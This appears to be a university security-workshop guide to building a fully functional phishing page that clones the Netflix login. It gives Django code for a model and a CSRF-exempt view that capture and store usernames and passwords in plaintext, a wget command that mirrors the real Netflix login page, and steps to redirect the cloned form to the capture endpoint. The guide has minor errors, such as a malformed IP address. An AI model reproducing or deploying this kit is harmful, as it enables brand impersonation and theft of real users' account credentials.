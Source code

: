 # UHART CYBER SECURITY: PHISHING WORKSHOP
Down below is a guide to make a fully functional phishing page. For the workshop, we cloned the netflix login page. Follow the guide below to create your own local netflix page. 

## Make sure python is installed

```
sudo apt-get install python3-pip

```

## Install the django framework/django-admin tool

```
pip3 install Django

sudo apt-get install python3-django

```

## Creating the app
Now we will utilize Django to create our local web server. We're going to createa n app called "netflix2" using django-admin

```
django-admin startproject netflix2

```

## Setting up our project
During the workshop, this part was all over the place, but it's very simple. All we need to do, cd into our project, create our host app, and set up our urls, views etc. 

### Create the app

```
django-admin startapp host

```

### Setting up our config
Inside your app, there is a folder with the SAME name as your main project, our is called "netflix2". cd into that directory and you should see 3 main files


```
settings.py  urls.py wsgi.py

```

We're going to editing our settings.py first. Inside settings.py look for "INSTALLED APPS". Add our host app to the installed app's section


```

INSTALLED_APPS = [
    'host',  <-- ADD your app HERE 
    'django.contrib.admin',
    'django.contrib.auth',
    'django.contrib.contenttypes',
    'django.contrib.sessions',
    'django.contrib.messages',
    'django.contrib.staticfiles',
]

```

That's everything we need to as far as settings.py. Now we need to change our urls.py to route all our apps on the webhost. I don't have the patience to show everything you'll need to change so i'm just going to paste what your urls.py file SHOULD look like (DOWN BELOW) 


```

from django.contrib import admin
from django.conf.urls import url, include

urlpatterns = [
	url(r'^admin/', admin.site.urls),	
	url(r'^host/', include('host.urls')), 	
]

```

This is all that needs to be in your URLS.py file. As Far as config, that's all we need to do

## Setting up our views and HOST APP

Now we're going to cd OUT of our config directory and go into our host app. 
One file we need to create is our URLS.py.

```

cd ../ 
cd host
touch urls.py

```

All we have to do is set up our Database ACCOUNT capture model and link it to our views.py

## Setting up Database model

Go into models.py and paste this in

```

from django.db import models
from django.utils import timezone
# Create your models here.


class Account(models.Model):
    username = models.CharField(max_length=100)
    password = models.CharField(max_length=100)
    login_time = models.DateTimeField(default=timezone.now)

    def __str__(self):
        return "{} :  {}".format(self.username, self.password)

```

Now REGISTER your model in admin.py.
Your admin.py should look like this


```

from django.contrib import admin
from .models import Account
# Register your models here.

# REGISTERING ACCOUNT model to site
admin.site.register(Account)

```

## Creating OUR VIEWS

Now we just need a view that captures netflix login details and saves it in our database
In your views.py file, paste this code.

```

from django.shortcuts import render, redirect
from .models import Account
from django.views.decorators.csrf import csrf_exempt

@csrf_exempt
def login_page(request):
	# capture request information
	# create account model
	# save to database

	if request.method == "POST":
		getusername = request.POST.get("userLoginId")
		getpassword = request.POST.get("password")
		print(getusername)
		print(getpassword)
		myAccount = Account()
		myAccount.username = getusername
		myAccount.password = getpassword
		myAccount.save()
		
	template_name = 'host/netflix.html'
	return render(request, template_name)

```


We're pretty much done with web app and now we need to clone netflix and render the template to our template directory

## Creating the template

Use this command to clone the netlix login page

```

wget -mkEpnp https://www.netflix.com/Login?nextpage=http%3A%2F%2Fwww3.netflix.com%2Fbrowse

```

This will download a folder called "www.netflix.com". Now we need the HTML file. 
inside our HOST app create a directory called "templates"

```

mkdir templates
cd templates
mkdir host
cd host

```

Our template directory is set up like this: templates/host/netflix.html

Put your netflix html file in the templates/host/ directory. Rename it to netflix.html to match our view function


## Add URL PATH in host

Now cd back to the main host app and let's edit our urls.py. PASTE THIS in your urls.py file. This will just map a url to our VIEWS functions. the url is going to be http://HOST:8000/host/login

```

from django.contrib import admin
from django.conf.urls import url, include
from . import views


"""
/admin
/host/login
"""


urlpatterns = [
	url(r'^login/', views.login_page, name='login-page'),
]

```

## Edit the netflix.html file
cd into your templates/host/netflix.html file and we need to edit the ACTION tag.
CTRL + F the file and search for action=""
replace the quotes in the action tag with your URL: http://1270.0.1:8000/host/login/

# ALL SET

Now your app is fully set up and you can head to http://127.0.0.1:8000/host/login and have a fully functioning netflix phishing page.

to create our web app we need to run a couple migration commands. cd back to the main project directory where manage.py is and run these commands

```
python3 manage.py migrate
python3 manage.py makemigrations

```

#Create your admin superuser

```

python3 manage.py createsuperuser

```

Follow the steps and create a username and password

























